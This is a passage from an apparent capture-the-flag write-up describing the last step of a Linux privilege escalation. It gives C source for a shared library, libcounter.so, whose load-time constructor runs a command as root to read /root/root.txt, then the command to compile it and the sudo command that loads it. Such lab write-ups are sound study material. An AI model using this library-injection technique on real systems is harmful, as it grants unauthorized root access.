 ### Creating libcounter.so
we'll create the `libcounter.so` file, allowing us solely to view the root flag, although it's also possible to obtain a shell.


```c
#include <stdio.h>
#include <stdlib.h>

void __attribute__((constructor)) load_shellcode() {
    system("cat /root/root.txt");
}
```
Compiled the shared object file:

```bash
gcc -fPIC -shared -o libcounter.so libcounter.c
```

### Final Execution
Finnally, just execute the binary as sudo an obtain the flag.
```
sudo /usr/bin/stock
```
